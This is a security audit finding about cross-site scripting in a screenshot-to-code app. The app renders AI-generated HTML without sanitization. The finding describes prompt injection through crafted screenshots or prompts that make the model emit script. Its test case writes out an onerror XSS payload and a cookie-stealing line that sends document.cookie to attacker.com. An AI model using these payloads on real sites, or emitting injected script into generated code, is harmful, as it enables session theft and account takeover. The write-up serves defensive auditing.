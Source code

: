 ## Vulnerabilities in AI-Generated Code

### Cross-Site Scripting (XSS) Vulnerability in AI-Generated Code

- **Description:**
  The application leverages AI models to generate frontend code (HTML, CSS, JavaScript, React, Vue, etc.) from user-provided screenshots, video recordings, or text prompts. This generated code is then transmitted to the frontend and rendered in the user's browser. A critical vulnerability arises because the AI models, when processing user inputs, can be tricked into generating malicious JavaScript code within the output. An attacker can craft a malicious screenshot, video, or text prompt containing elements that, when interpreted by the AI, result in the generation of JavaScript code capable of executing XSS attacks. For instance, an attacker can embed text resembling HTML tags with inline JavaScript event handlers or script tags directly within the input. If the frontend renders this AI-generated code without proper sanitization, any malicious JavaScript embedded within it will be executed in the victim's browser, leading to Cross-Site Scripting (XSS).

- **Impact:**
  Successful exploitation of this XSS vulnerability allows an attacker to execute arbitrary JavaScript code within the context of a victim's browser session. This can lead to severe security breaches, including:
    - **Account Takeover:** Attackers can steal session cookies or credentials, gaining unauthorized access to user accounts and impersonating victims.
    - **Data Theft:** Sensitive user data, including personal information, session tokens, and application data, can be exfiltrated to attacker-controlled servers.
    - **Malware Distribution:** Users can be redirected to malicious websites hosting malware, leading to system compromise.
    - **Website Defacement:** The visual appearance and functionality of the web application can be altered, damaging the application's reputation and user trust.
    - **Redirection to Malicious Sites:** Users can be redirected to phishing scams or other malicious websites to steal credentials or personal information.
    - **Performing Actions on Behalf of the User:** Attackers can perform actions on the application as the victim without their consent.

- **Vulnerability Rank:** Critical

- **Currently Implemented Mitigations:**
  Currently, there are no effective mitigations implemented to prevent XSS vulnerabilities in the AI-generated code. The backend code includes a function `extract_html_content` in `backend\codegen\utils.py`, which attempts to extract HTML content from the AI's response using regular expressions. However, this function only extracts content within `<html>` tags and does not perform any sanitization or encoding of the generated HTML. Malicious JavaScript can still be embedded within HTML tags, such as through inline event handlers (e.g., `onload`, `onclick`) or `<script>` tags included within the HTML structure. The system prompts used to instruct the AI models also lack any instructions to sanitize or avoid generating potentially harmful code, focusing primarily on visual fidelity and functionality.

- **Missing Mitigations:**
  To effectively mitigate this XSS vulnerability, the following mitigations are crucial:
    - **Frontend Output Sanitization:** Implement robust sanitization of the AI-generated HTML code on the frontend before rendering it in the browser. This should involve parsing the HTML and removing or neutralizing any potentially malicious JavaScript code. Utilize a well-vetted HTML sanitization library, such as DOMPurify, to ensure comprehensive coverage of XSS attack vectors. The sanitization should specifically:
        - Remove or escape `<script>` tags and inline JavaScript.
        - Remove or neutralize JavaScript event handlers (e.g., `onload`, `onclick`, `onmouseover`, etc.) from HTML attributes.
        - Sanitize or disallow JavaScript URLs (e.g., `javascript:alert('XSS')`).
    - **Content Security Policy (CSP):** Implement a strict Content Security Policy (CSP) to limit the capabilities of the generated web pages and mitigate the impact of XSS. A restrictive CSP should be configured to:
        - Disable inline JavaScript execution (`script-src 'none'` or using 'nonce' or 'hash' based approach).
        - Restrict script sources to a whitelist of trusted domains (`script-src 'self' https://cdn.example.com`).
        - Disable `eval()` and similar unsafe JavaScript functions (`unsafe-inline`, `unsafe-eval` directives should be avoided or strictly controlled).
    - **Input Sanitization of AI-Generated Code (Backend):** Implement server-side sanitization of the AI-generated code before it is presented to the user. This acts as a secondary defense layer.
    - **Prompt Hardening:** Design prompts to be more robust against injection attacks by clearly separating instructions from input data and guiding the AI to follow instructions strictly, avoiding interpretation of input data as commands.
    - **User Education and Warnings:** Display clear warnings to users about the inherent security risks associated with deploying AI-generated code without thorough security review and testing. Emphasize the need for manual review and security audits of all generated code before deployment.
    - **Regular Security Audits and Testing:** Implement regular security audits and automated security testing as part of the development pipeline to identify and address vulnerabilities, including XSS, early in the development cycle.

- **Preconditions:**
    - The application must be running and accessible to the attacker.
    - The attacker needs to be able to upload a screenshot, provide a video, or text prompt input to the application.
    - The attacker must be able to craft a malicious input (screenshot, video or text prompt) that can successfully trick the AI model into generating code with XSS vulnerabilities. This may require some experimentation.
    - The frontend application must be rendering the `setCode` websocket messages as HTML content in the browser without sanitization.
    - A user must then deploy or utilize the generated code in an environment where it can be accessed and executed by other users' browsers without performing adequate security checks or sanitization of the AI-generated output.

- **Source Code Analysis:**
    1. **`backend\routes\generate_code.py`:** This file handles code generation requests via a websocket endpoint. The `stream_code` function receives user input, creates prompts, calls AI models, and sends the generated code to the frontend.
        ```python
        from codegen.utils import extract_html_content
        # ...
        async def stream_code(websocket: WebSocket):
            # ...
            completions = [extract_html_content(completion) for completion in completions]
            # ...
            for index, updated_html in enumerate(updated_completions):
                await send_message("setCode", updated_html, index)
        ```
        Notably, the `extract_html_content` function is used to process the AI's response, but it only extracts HTML content and does not perform any sanitization. The generated `updated_html` is directly sent to the frontend without further security processing.

    2. **`backend\codegen\utils.py`:** This file contains the `extract_html_content` function.
        ```python
        import re
        def extract_html_content(text: str):
            match = re.search(r"(<html.*?>.*?</html>)", text, re.DOTALL)
            if match:
                return match.group(1)
            else:
                return text
        ```
        This function uses a regular expression to extract content within `<html>` tags. It is designed for content extraction, not security, and does not provide any sanitization to prevent XSS.

    3. **`backend\prompts\__init__.py`, `backend\prompts\screenshot_system_prompts.py` & `backend\prompts\claude_prompts.py`:** These files define system prompts that instruct the AI models to generate code based on user input. The prompts prioritize visual accuracy and code functionality but do not include instructions for the AI to sanitize its output or avoid generating potentially harmful code. Some prompts even instruct the AI to "Use the exact text from the screenshot," which exacerbates the XSS risk.

    4. **`backend\llm.py`:** This file contains functions for interacting with AI models (OpenAI, Claude, Gemini). Functions like `stream_openai_response`, `stream_claude_response`, and `stream_gemini_response` handle communication with the respective AI APIs and stream back the raw responses without any sanitization or validation of the AI-generated code.

    5. **`backend\mock_llm.py`:** Mock responses in this file, such as `MORTGAGE_CALCULATOR_VIDEO_PROMPT_MOCK`, include `<script>` tags, demonstrating that the intended behavior of the application is to generate and handle HTML code that can contain JavaScript, further highlighting the XSS risk if not properly sanitized.

- **Security Test Case:**
    1. **Prepare a Malicious Screenshot:** Create an image (e.g., `xss_image.png`) and embed the following XSS payload within it as text or as part of a visual element: `<img src=x onerror=alert('XSS Vulnerability!')>`.
    2. **Access the Application:** Open the screenshot-to-code application in a web browser.
    3. **Upload the Malicious Screenshot:** Use the application's "Screenshot to Code" functionality to upload the crafted `xss_image.png`. Select any supported stack (e.g., HTML + Tailwind).
    4. **Generate Code and Inspect Output:** Initiate the code generation process. Once completed, examine the generated code displayed in the application's output. Verify that the generated code contains the injected XSS payload (e.g., `<img src=x onerror=alert('XSS Vulnerability!')>`).
    5. **Execute Generated Code in a Test HTML File:** Copy the generated HTML code. Create a new HTML file (e.g., `xss_test.html`), paste the copied code into it, and open `xss_test.html` in a web browser.
    6. **Verify XSS Execution:** Observe if an alert box appears in the browser displaying "XSS Vulnerability!". If the alert box appears, it confirms that the XSS payload was successfully injected into the AI-generated code and is executable in a web browser, validating the XSS vulnerability.
    7. **Further Test with Cookie Stealing Payload (Optional):** To further demonstrate impact, replace `alert('XSS Vulnerability!')` with code that attempts to steal cookies or redirect to a malicious site, such as `<script>window.location.href='http://attacker.com/cookie-stealer?cookie='+document.cookie;</script>`. Repeat steps 1-6 and observe if the browser redirects to `http://attacker.com/cookie-stealer` (or performs the intended malicious action), further confirming the XSS vulnerability and its potential impact.
